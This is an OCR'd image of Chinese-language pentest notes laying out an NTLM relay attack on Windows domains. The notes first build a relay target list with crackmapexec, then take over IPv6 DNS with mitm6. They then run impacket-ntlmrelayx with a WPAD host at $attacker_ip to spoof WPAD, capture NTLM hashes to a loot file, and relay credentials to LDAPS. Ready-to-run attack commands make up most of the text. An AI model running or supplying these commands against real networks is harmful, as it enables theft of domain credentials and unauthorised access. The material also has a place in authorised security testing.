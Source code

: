 	自MS16-077起，不再通过广播协议请求 WPAD 文件的位置，而仅通过 DNS 请求。
	crackmapexec smb $hosts --gen-relay-list relay.txt

	DNS 通过 IPv6 接管，mitm6 将通过 DHCPv6 请求 IPv6 地址
	-d 是我们过滤请求的域名 - 被攻击的域
	-i 是我们让 mitm6 监听事件的接口
	>mitm6 -i eth0 -d $domain
	欺骗 WPAD 和中继 NTLM 凭据
	>impacket-ntlmrelayx -6 -wh $attacker_ip -of loot -tf relay.txt
	>impacket-ntlmrelayx -6 -wh $attacker_ip -l /tmp -socks -debug

	-ip 是您希望中继运行的接口
	-wh 用于 WPAD 主机，指定wpad 文件
	-t 是您要中继到的目标。
	>impacket-ntlmrelayx -ip 10.10.10.1 -wh $attacker_ip -t ldaps://10.10.10.2